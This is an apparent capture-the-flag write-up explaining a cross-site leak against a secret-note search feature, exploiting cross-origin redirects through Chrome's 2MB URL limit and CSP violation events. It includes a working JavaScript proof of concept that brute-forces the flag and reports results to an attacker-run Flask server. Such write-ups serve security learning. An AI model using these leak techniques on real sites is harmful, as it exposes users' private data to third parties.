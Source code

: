 ```yaml
---
description: XS leak through cross-origin redirects — intended and unintended
---
```


# secrets

## Overview

> A secure and secret note storage system is a platform or application designed to keep your confidential notes safe from unauthorized access.

The challenge revolved around searching contents of secret notes.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.46.57 PM.png" alt=""><figcaption></figcaption></figure>

Let's examine the behaviour of the search feature.

When searching for a note through `/search?query=<query>`, there are two possible responses:

1. The note was found.

In this case, a 301 redirect is issued to `http://results.wtl.pw/results?ids=<note UUIDs>&query=<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:48:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 357
Connection: close
Location: http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&query=test
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test">http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test</a>. If not, click the link.
```

It is important to note that this is a redirect to a _different_ subdomain. Searching on **`secrets`**`.wtl.pw` redirects to **`results`**`.wtl.pw`.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.52.17 PM.png" alt=""><figcaption></figcaption></figure>

2. The note was not found.

In this case, a 301 redirect is issued to `http://secrets.wtl.pw/#<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:51:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 241
Connection: close
Location: http://secrets.wtl.pw/#asdf
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://secrets.wtl.pw/#asdf">http://secrets.wtl.pw/#asdf</a>. If not, click the link.

```

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.51.58 PM.png" alt=""><figcaption></figcaption></figure>

## Unintended Solution — Chrome's 2MB URL Limit

One thing that might be immediately noticeable is that if the note was found, then the resulting URL length is extended considerably by the `ids` parameter.

A [well-known technique](https://xsleaks.dev/docs/attacks/navigations/#inflation) in these kinds of scenarios is hitting the server's maximum URL limit, and detecting error status codes. However, these rely on `SameSite=None` cookies for the [error event detection](https://xsleaks.dev/docs/attacks/error-events/).&#x20;

The challenge had `SameSite=Lax` cookies, so the primitive for any XS-Leak attack is a top-level navigation (e.g. through `window.open`). There is no way to detect server response codes in a cross-origin window reference, so I started looking for other ways to detect the URL inflation.

We might not be able to detect a _server-side_ URL length error, but can we somehow detect a _client-side_ one? According to [Chromium documentation](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url\_display\_guidelines/url\_display\_guidelines.md#URL-Length), Chrome's maximum URL length is 2MB.

> In general, the _web platform_ does not have limits on the length of URLs (although 2^31 is a common limit). _Chrome_ limits URLs to a maximum length of **2MB** for practical reasons and to avoid causing denial-of-service problems in inter-process communication.

This is where it gets interesting! Because this is a _client-side_ constraint, and URL fragments persist on redirects, we can open `/search?query=<query>#AAA...[2MB]...AAA` to hit the length limit.

So, what happens when the URL limit is exceeded?

Apparently, it shows an `about:blank#blocked` page.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.38.58 PM.png" alt=""><figcaption></figcaption></figure>

As you might expect, trying to access the `origin` (or any other sensitive information) of a cross-origin window reference would raise an exception.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.43.00 PM.png" alt=""><figcaption></figcaption></figure>

However, when opening a page that errors out due to the 2MB constraint, the window's `origin` remains that of the parent.

As an experiment, let's try a successful query.

```javascript
let url = "http://secrets.wtl.pw/search?query=test#"
let w = window.open(url + "A".repeat(2 * 1024 * 1024 - url.length - 1))
```

The length of the opened URL&#x20;

```
http://secrets.wtl.pw/search?query=test#AAA...AAA
```

is exactly 2MB - 1, so the initial search URL is just under the length limit.

When the window is redirected to

```
http://results.wtl.pw/results?ids=<note UUIDs>&query=test#AAA...AAA
```

the URL is extended and the length limit is hit. The window becomes an `about:blank` page and its `origin` remains that of the parent.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.16 PM.png" alt=""><figcaption></figcaption></figure>

Now, if we try the same thing on an unsuccessful query, the final redirected URL falls short of the 2MB limit and the window's `origin` is no longer accessible.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.42 PM.png" alt=""><figcaption></figcaption></figure>

This can be extended to the following PoC, which brute-forces a character of the flag.

```markup
<html>
<body></body>
<script>
    (async () => {

        const curr = "http://secrets.wtl.pw/search?query=HackTM{"

        const leak = async (char) => {
            
            fetch("/?try=" + char)
            let w = window.open(curr + char +  "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2))
            
            const check = async() => {
                try {
                    w.origin
                } catch {
                    fetch("/?nope=" + char)
                    return
                }
                setTimeout(check, 100)
            }
            check()
        }

        const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

        for (let i = 0; i < CHARSET.length; i++) {
            leak(CHARSET[i])
            await new Promise(resolve => setTimeout(resolve, 50))
        }
    })()

</script>
</html>
```

Because this PoC only tells us what is definitely _not_ the flag (by detecting the `w.origin` errors), we can implement a backend server to quickly find what _is_ the flag by eliminating the unsuccessful queries from the charset.

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars
    
    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

The downside of this method is that the long URLs can cause significant lag on the server's admin bot. This _may or may not_ have made the bot extremely unstable for a period of time... oops!

## Intended Solution — CSP Violation

It turns out that there is a much faster and less laggy way of detecting the redirects. Because the redirect is to a different origin, we can use [CSP violations](https://xsleaks.dev/docs/attacks/navigations/#cross-origin-redirects) as an oracle.&#x20;

```markup
<meta http-equiv="Content-Security-Policy" content="form-action http://secrets.wtl.pw">
<form action="http://secrets.wtl.pw/search" method="get">
    <input type="text" name="query" value="test">
</form>

<script>
    document.addEventListener('securitypolicyviolation', () => {
        console.log("CSP violation!")
    });
    document.forms[0].submit();
</script>
```

Because the query was successful, the window attempted to load `http://results.wtl.pw`. But since our CSP dictates that forms can only be submitted to `http://secrets.wtl.pw`, the request was blocked. We can detect this through the `securitypolicyviolation` event listener.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 11.03.59 PM.png" alt=""><figcaption></figcaption></figure>
